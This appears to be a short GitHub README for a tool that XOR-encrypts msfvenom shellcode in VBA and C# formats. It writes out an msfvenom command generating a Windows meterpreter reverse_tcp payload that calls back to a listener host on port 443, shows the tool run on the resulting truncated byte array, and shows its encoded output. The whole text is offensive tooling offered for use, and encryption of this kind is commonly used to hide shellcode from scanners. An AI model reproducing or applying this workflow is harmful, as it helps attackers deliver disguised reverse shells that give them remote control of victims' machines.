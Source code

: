 # XOR_Payload_encryption
This project is ment to be use as an encryptor shellcode produced by msfvenom for "-f vbapplication" and "-f csharp"



➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.57 LPORT=443 EXITFUNC=thread -f vbapplication
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes

Final size of vbapplication file: 1302 bytes
buf = Array(252,232,143,0,0,0,96,13.....


Running: 
xorsharp

 xorcharp  'buf = Array(252,232,143,0,0.....)' 0xbd

--> Output:


Counter:  376
Key:  0xbd
Key:  189
buf =  Array(189, 189, 189, 221,... )




